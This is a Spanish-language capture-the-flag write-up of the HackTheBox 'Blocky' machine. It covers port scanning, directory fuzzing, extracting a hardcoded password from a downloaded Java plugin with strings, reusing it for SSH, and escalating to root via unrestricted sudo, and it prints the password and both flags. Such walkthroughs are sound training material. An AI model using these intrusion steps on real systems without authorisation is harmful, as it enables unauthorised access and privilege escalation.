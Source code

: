 # Blocky

Plataforma: HackTheBox
OS: Linux
Level: Easy
Status: Done
Complete: Yes
EJPT: yes
Created time: 25 de enero de 2025 16:39
IP: 10.10.10.37

## Recopilación de información

<aside>
💡 Reconocimiento general

</aside>

### **Escaneo de puertos**

Comenzamos con un escaneo para identificar que puertos están abiertos.

---

```bash
sudo nmap -p- --open -T5 -sS --min-rate 5000 -n -Pn -vvv 10.10.10.37 -oG targeted

PORT      STATE SERVICE   REASON
21/tcp    open  ftp       syn-ack ttl 63
22/tcp    open  ssh       syn-ack ttl 63
80/tcp    open  http      syn-ack ttl 63
25565/tcp open  minecraft syn-ack ttl 63
```

### **Enumeración de servicios**

Una vez listado los puertos accesibles, procederemos a realizar la enumeración de servicios para su posterior identificación de vulnerabilidades.

---

```bash
❯ sudo nmap -p21,22,80,25565 -sCV 10.10.10.37 -oN targeted

PORT      STATE SERVICE   VERSION
21/tcp    open  ftp       ProFTPD 1.3.5a
22/tcp    open  ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp    open  http      Apache httpd 2.4.18
|_http-title: Did not follow redirect to http://blocky.htb
|_http-server-header: Apache/2.4.18 (Ubuntu)
25565/tcp open  minecraft Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
Service Info: Host: 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```

- **Identificación de vulnerabilidades**
    - 21/tcp    open  ftp       ProFTPD 1.3.5a
    - 22/tcp    open  ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2
    - 80/tcp    open  http      Apache httpd 2.4.18
    - 25565/tcp open  minecraft Minecraft 1.11.2
    
- **Enumeración WEB**
    
    Hacemos fuzzing para ver sitios
    
    ```bash
    ❯ gobuster dir -u http://blocky.htb/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
    
    Starting gobuster in directory enumeration mode
    ===============================================================
    /wiki                 (Status: 301) [Size: 307] [--> http://blocky.htb/wiki/]
    /wp-content           (Status: 301) [Size: 313] [--> http://blocky.htb/wp-content/]
    /plugins              (Status: 301) [Size: 310] [--> http://blocky.htb/plugins/]
    /wp-includes          (Status: 301) [Size: 314] [--> http://blocky.htb/wp-includes/]
    /javascript           (Status: 301) [Size: 313] [--> http://blocky.htb/javascript/]
    /wp-admin             (Status: 301) [Size: 311] [--> http://blocky.htb/wp-admin/]
    /phpmyadmin 
    
    ```
    

Vemos que en el directorio /plugins hay dos ficheros. Los descargamos :

```bash
❯ wget http://blocky.htb/plugins/files/BlockyCore.jar
❯ wget http://blocky.htb/plugins/files/griefprevention-1.11.2-3.1.1.298.jar
```

Abrimos los ficheros. Dentro de BlockyCore hay dos ficheros mas. Abrimos BlockyCore.class y vemos con strings si hay datos

```bash
 strings BlockyCore.class
com/myfirstplugin/BlockyCore
java/lang/Object
sqlHost
Ljava/lang/String;
sqlUser
sqlPass
<init>
Code
	localhost	
root	
8YsqfCTnvxAUeduzjNSXe22	
LineNumberTable
LocalVariableTable
this
Lcom/myfirstplugin/BlockyCore;
onServerStart
onServerStop
onPlayerJoin
TODO get username
!Welcome to the BlockyCraft!!!!!!!
sendMessage
'(Ljava/lang/String;Ljava/lang/String;)V
username
message
SourceFile
BlockyCore.java
```

Encontramos un password para root: 8YsqfCTnvxAUeduzjNSXe22	

Probamos a acceder por ssh

## Explotación

<aside>
💡 Probamos diferentes accesos

</aside>

### Explotación 1

Probamos a acceder con credenciales anteriores de root. Vemos que no funciona

Probamos a accder con credenciales para usuario anterior visto en la web: notch

```bash
❯ ssh notch@10.10.10.37
notch@Blocky:~$ 
```

Encontramos flag de user.txt

```bash
notch@Blocky:~$ ls  
minecraft  user.txt
notch@Blocky:~$ cat user.txt 
d649a752520fd4d3d4477eb021cef751
notch@Blocky:~$ 

```

### Explotación posterior

<aside>
💡 Accedemos con las credenciales encontradas

</aside>

### Escalada de privilegios

Vamos a probar a escalar privilegios desde notch hasta root.

```bash
notch@Blocky:~$ sudo -l
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
notch@Blocky:~$ sudo su
root@Blocky:/home/notch# 

```

Hemos visto que como usuario notch podemos ejecutar cualquier comando, por lo que nos convertimos en root y obtenemos la flag

```bash
root@Blocky:~# cat root.txt 
3c7c13456cbfef5026ce92b9f4cf6524
```

## Conclusión

<aside>
💡 Maquina fácil con una escalada prácticamente nula

</aside>